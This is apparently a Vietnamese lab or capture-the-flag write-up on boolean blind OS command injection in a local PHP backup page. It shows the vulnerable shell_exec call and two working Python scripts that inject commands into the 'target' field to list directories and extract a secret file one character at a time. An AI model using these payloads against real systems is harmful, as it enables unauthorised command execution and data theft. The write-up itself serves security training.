



# Boolean OS Blind Command Injection localhost:3006
### 1. Tổng quan
lv6 là website cho phép người dùng thực hiện backup 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:3006 cho phép thực hiện backup
#### Impact
Kẻ xấu có thể chạy lệnh OS
#### Root-cause analysis

Trong mã nguồn `/src/index.php`, biến `$target` không được validate mà truyền thẳng vào hàm `shell_exec` dẫn tới việc kẻ xấu có thể thực thi câu lệnh OS

    case "backup":
        $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
        if ($result !== null && strpos($result, "zip error") === false)
            die("Backup thành công");
        else
            die("Backup không thành công");
        break;

Mặc dù server chỉ phản hồi 2 tín hiệu hoặc là "Backup thành công" hoặc là "Backup không thành công" nhưng lệnh OS Command vẫn chạy ngầm. Và nhờ tín hiệu đó, kẻ xấu có thể đoán đoán được nội dung bên trong server 

#### Step to reproduce

1. Tìm file bí mật

Viết script bằng python để gửi response chứa data khai thác

    import requests
    secret=''
    URL='http://localhost:3006/'
    CHARSET='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789<=>.?@[]^_`{|}~-'
    index_hang=1
    index_cot=1
    while True:
    found = False
    print("========[DEBUG] Dang debug ky tu hang ",index_hang," ==============")
    for char in CHARSET:
        INJECT = "abc.zip --help;cmd=$(ls -a / | sed -n {vitri_hang}p | cut -c {vitri_cot});if [ $cmd = '{bruteforce}' ];then echo 'hello';else echo 'zip error';fi;#".format(
            vitri_hang=index_hang,
            vitri_cot=index_cot,
            bruteforce=char
        )
        data={'command':'backup','target':INJECT}
        response=requests.post(URL,data)
        print("Dang thu ky tu: ",char, 'voi state: ',response.text,end='\r')
        if "Backup thành công" in response.text:
            index_cot+=1
            secret+=char
            found = True
            print("Ky tu hang ",index_hang," cot ",index_cot," la ",char)
            print("===>[SECRET]: ",secret)    
            break
    #Nếu bruteforce xong dòng đầu, nhảy sang dòng mới
    if not found:
        secret+=" "
        index_hang+=1
        index_cot=1
        #Tìm xong hết rồi end
        if index_hang > 20:
            print("[FINISHED] Da tim thay SecretFile: ",secret)
            break

2. Đọc file bí mật

Viết script bằng python để gửi response chứa data khai thác

    import requests
    FLAG=''
    URL='http://localhost:3006/'
    CHARSET='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789<=>?@[]^_`{|}~-'
    index=1
    while True:
    found = False
    print("========[DEBUG] Dang debug ky tu thu",index," ==============")
    for char in CHARSET:
        INJECT = "abc.zip --help;cmd=`cat /*secret.txt | cut -c {vitri}`; if [ $cmd = '{bruteforce}' ]; then echo 'hello'; else echo 'zip error';fi #".format(
            vitri=index,
            bruteforce=char
        )
        data={'command':'backup','target':INJECT}
        response=requests.post(URL,data)
        print("Dang thu ky tu: ",char, 'voi state: ',response.text,end='\r')
        if "Backup thành công" in response.text:
            index+=1
            FLAG+=char
            found = True
            print("Ky tu thu ",index," la ",char)
            print("===>[FLAG]: ",FLAG)    
            break
    if not found:
        print("[FINISHED] Da tim thay FLAG: ",FLAG)
        break

